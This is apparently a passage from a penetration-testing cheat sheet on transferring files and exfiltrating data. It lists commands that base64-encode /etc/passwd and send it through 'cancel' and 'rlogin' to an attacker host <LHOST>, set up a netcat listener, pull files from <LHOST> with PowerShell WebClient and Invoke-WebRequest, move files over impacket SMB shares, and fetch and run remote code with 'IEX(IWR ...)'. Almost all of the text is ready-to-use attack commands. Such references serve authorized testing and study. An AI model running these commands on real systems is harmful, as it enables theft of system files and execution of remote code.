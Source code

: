 ### cancel

```console
$ nc -nlvp 18110
$ cancel -u "$(cat /etc/passwd | base64)" -h <LHOST>:<LPORT>
```

### rlogin

```console
$ rlogin -l "$(cat /etc/passwd | base64)" -p <LPORT> <LHOST>
```

### Linux to Windows

```cmd
PS C:\> powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://<LHOST>/<LOCAL_DIRECTORY>/<FILE>','C:\Users\<USERNAME>\Documents\<FILE>')"
```

### Windows to Linux

```console
$ impacket-smbserver <SHARE> . -smb2support
```

```cmd
C:\> copy * \\<LHOST>\<SHARE>
```

#### Authenticated

```console
$ impacket-smbserver -smb2support share <FOLDER> -user <USERNAME> -password <PASSWORD>
```

```cmd
C:\> net use n: \\<LHOST>\share /user:<USERNAME> <PASSWORD>
```

### Windows to Linux using Invoke-Webrequest

```cmd
PS C:\> powershell -command Invoke-WebRequest -Uri http://<LHOST>:<LPORT>/<FILE> -Outfile C:\\temp\\<FILE>
```

#### Short Version

```cmd
PS C:\> iwr <LHOST>/<FILE> -o <FILE>
PS C:\> iwr <LHOST>/<FILE> -o <FILE> -useb
PS C:\> iwr <LHOST>/<FILE> -o <FILE> -UseBasicParsing
PS C:\> IEX(IWR http://<LHOST>/<FILE>)
PS C:\> IEX(IWR http://<LHOST>/<FILE>) -useb
PS C:\> IEX(IWR http://<LHOST>/<FILE>) -UseBasicParsing
```
